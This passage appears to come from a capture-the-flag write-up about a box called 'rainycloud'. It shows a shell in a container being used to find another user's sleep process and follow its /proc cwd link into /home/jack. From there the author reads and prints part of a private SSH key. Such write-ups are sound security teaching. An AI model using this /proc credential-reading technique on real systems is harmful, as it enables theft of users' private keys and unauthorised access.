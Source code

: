 ```

/ $ id
uid=1000 gid=1000

```

With this, from a container stood up under gary’s account, if I get a shell, I can see the long running `sleep`:

```

/ $ ps auxww
PID   USER     TIME  COMMAND 
...[snip]...
1196 1000      0:00 sleep 100000000
...[snip]...

```

Looking closer at the process, it’s the same sleep I abused above:

```

/proc/1196 $ ls -l
total 0
-r--r--r--    1 1000     1000             0 Feb 15 01:48 arch_status
...[snip]...
lrwxrwxrwx    1 1000     1000             0 Feb 10 20:36 cwd -> /home/jack
...[snip]...

```

And read the SSH key:

```

/proc/1196 $ cat cwd/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA7Ce/LAvrYP84rAa7QU51Y+HxWRC5qmmVX4wwiCuQlDqz73uvRkXq
qdDbDtTCnJUVwNJIFr4wIMrXAOvEp0PTaUY5xyk3KW4x9S1Gqu8sV1rft3Fb7rY1RxzUow
SjS+Ew+ws4cpAdl/BvrCrw9WFwEq7QcskUCON145N06NJqPgqJ7Z15Z63NMbKWRhvIoPRO
JDhAaulvxjKdJr7AqKAnt+pIJYDkDeAfYuPYghJN/neeRPan3ue3iExiLdk7OA/8PkEVF0
/pLldRcUB09RUIoMPm8CR7ES/58p9MMHIHYWztcMtjz7mAfTcbwczq5YX3eNbHo9YFpo95
...[snip]...

```

This allows for skipping the dev vhost and the file read entirely.

### Why

So how does this happen? As root, I’ll go take a look at the webapp, `/var/www/rainycloud/app.py`. This is the block of code that handles incoming requests for containers from the “My Containers” page:
